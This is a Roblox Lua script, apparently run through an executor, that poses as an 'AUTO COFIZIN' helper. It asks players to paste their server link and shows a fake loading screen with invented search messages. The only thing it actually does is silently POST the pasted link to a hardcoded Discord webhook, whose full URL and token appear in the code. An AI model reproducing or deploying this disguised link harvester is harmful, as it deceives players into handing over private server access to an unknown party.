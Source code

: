 local webhookUrl = "https://discord.com/api/webhooks/1432163980847218798/9sTdOInP1cBKsgP8wQ9HQ2zZOKNxXJB0lqR_bZ_ensEcHIxfMcgbFOxHf3RqgQPeo8pe"
local req = (syn and syn.request) or (http and http.request) or (request) or (http_request)
local plr = game:GetService("Players").LocalPlayer
 
for _,v in pairs(plr.PlayerGui:GetChildren()) do
if v.Name == "AutoCofizinInput" or v.Name == "AutoCofizinLoading" then
v:Destroy()
end
end
 
local gui = Instance.new("ScreenGui")
gui.Name = "AutoCofizinInput"
gui.IgnoreGuiInset = true
gui.Parent = plr.PlayerGui
 
local frame = Instance.new("Frame")
frame.Size = UDim2.new(0.4,0,0.3,0)
frame.Position = UDim2.new(0.3,0,0.35,0)
frame.BackgroundColor3 = Color3.fromRGB(20,20,20)
frame.BorderSizePixel = 0
frame.Parent = gui
 
local title = Instance.new("TextLabel", frame)
title.Size = UDim2.new(1,0,0,40)
title.Position = UDim2.new(0,0,0,0)
title.BackgroundTransparency = 1
title.TextColor3 = Color3.fromRGB(0,200,255)
title.Font = Enum.Font.SourceSansBold
title.TextSize = 34
title.Text = "AUTO COFIZIN"
title.Parent = frame
 
local txt = Instance.new("TextBox", frame)
txt.Size = UDim2.new(1,-40,0,40)
txt.Position = UDim2.new(0,20,0,60)
txt.Text = ""
txt.PlaceholderText = "Cole o link do servidor"
txt.BackgroundColor3 = Color3.fromRGB(30,30,30)
txt.TextColor3 = Color3.fromRGB(255,255,255)
txt.Font = Enum.Font.SourceSans
txt.TextSize = 22
txt.Parent = frame
 
local btn = Instance.new("TextButton", frame)
btn.Size = UDim2.new(0.5,-10,0,40)
btn.Position = UDim2.new(0.25,5,0,120)
btn.Text = "Verificar"
btn.BackgroundColor3 = Color3.fromRGB(0,200,80)
btn.TextColor3 = Color3.fromRGB(255,255,255)
btn.Font = Enum.Font.SourceSansBold
btn.TextSize = 26
btn.Parent = frame
 
btn.MouseButton1Click:Connect(function()
print("Botão clicado!") -- TESTE
local link = txt.Text
if link == "" then
btn.Text = "Erro ou vazio"
btn.BackgroundColor3 = Color3.fromRGB(200,0,0)
wait(1)
btn.Text = "Verificar"
btn.BackgroundColor3 = Color3.fromRGB(0,200,80)
return
end
 
gui:Destroy() -- Remove a tela de input
 
-- Tela de carregamento
local carregandoGui = Instance.new("ScreenGui")
carregandoGui.Name = "AutoCofizinLoading"
carregandoGui.IgnoreGuiInset = true
carregandoGui.Parent = plr.PlayerGui
 
local carregandoFrame = Instance.new("Frame")
carregandoFrame.Size = UDim2.new(1,0,1,0)
carregandoFrame.Position = UDim2.new(0,0,0,0)
carregandoFrame.BackgroundColor3 = Color3.fromRGB(0,0,0)
carregandoFrame.BorderSizePixel = 0
carregandoFrame.Parent = carregandoGui
 
local carregandoTitle = Instance.new("TextLabel", carregandoFrame)
carregandoTitle.Size = UDim2.new(1,0,0,90)
carregandoTitle.Position = UDim2.new(0,0,0,0)
carregandoTitle.BackgroundTransparency = 1
carregandoTitle.TextColor3 = Color3.fromRGB(0,200,255)
carregandoTitle.Font = Enum.Font.SourceSansBold
carregandoTitle.TextSize = 60
carregandoTitle.Text = "AUTO COFIZIN"
carregandoTitle.TextStrokeTransparency = 0.8
carregandoTitle.Parent = carregandoFrame
 
local lbl = Instance.new("TextLabel", carregandoFrame)
lbl.Size = UDim2.new(1,0,0,80)
lbl.Position = UDim2.new(0,0,0.45,0)
lbl.BackgroundTransparency = 1
lbl.TextColor3 = Color3.fromRGB(255,255,255)
lbl.Font = Enum.Font.SourceSansBold
lbl.TextSize = 56
lbl.Text = "Carregando..."
lbl.TextStrokeTransparency = 0.6
lbl.Parent = carregandoFrame
 
spawn(function()
local estados = {"Procurando bots...", "Procurando garama...", "Carregando...", "Procurando la grande..."}
local i = 1
while carregandoGui.Parent do
lbl.Text = estados[i]
i = i % #estados + 1
wait(1.5)
end
end)
 
-- ENVIO PRO WEBHOOK
if req then
pcall(function()
req({
Url = webhookUrl,
Method = "POST",
Headers = {["Content-Type"] = "application/json"},
Body = game:GetService("HttpService"):JSONEncode({content = link})
})
end)
end
end)
